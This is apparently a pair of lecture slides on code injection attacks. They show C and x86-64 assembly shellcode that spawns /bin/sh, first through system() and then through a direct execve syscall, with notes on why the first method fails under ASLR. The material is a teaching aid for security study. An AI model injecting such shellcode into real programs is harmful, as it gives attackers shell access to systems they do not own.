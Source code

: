 ## Code injection attack - shellcode

How we can execute shell in x86-64 Linux?
simplest solution (but not always work):

<div class=twocolumn>

```c
#include <stdlib.h>
void binsh() {
  char s[] = "/bin/sh";
  system(s);
}
```

```x86asm
  movabs  rax, 0x68732f6e69622f
  mov     qword ptr [rsp], rax
  mov     rdi, rsp
  call    system
  ret
```
</div>

- Problem
    - does not work if the program doesn't have `system` function
    - if address space is randomized, attacker cannot determine `system` address

---

## Code injection attack - shellcode

Portable shellcode in x86-64 Linux

<div class=twocolumn>

```c
#include <unistd.h>

void binsh() {
    char cmd[] = "/bin/sh";
    char *cmds[] = {cmd, NULL};
    // execve(cmd, cmds, NULL);
    syscall(0x3b, cmd, cmds, NULL);
}
```

```x86asm
  movabs  rax, 29400045130965551
  sub     rsp, 40
  xor     edx, edx
  lea     rdi, [rsp+8]
  lea     rsi, [rsp+16]
  mov     QWORD PTR [rsp+8], rax
  mov     QWORD PTR [rsp+24], 0
  mov     QWORD PTR [rsp+16], rdi
  mov     eax, 0x3b
  syscall
  add     rsp, 40
  ret
```
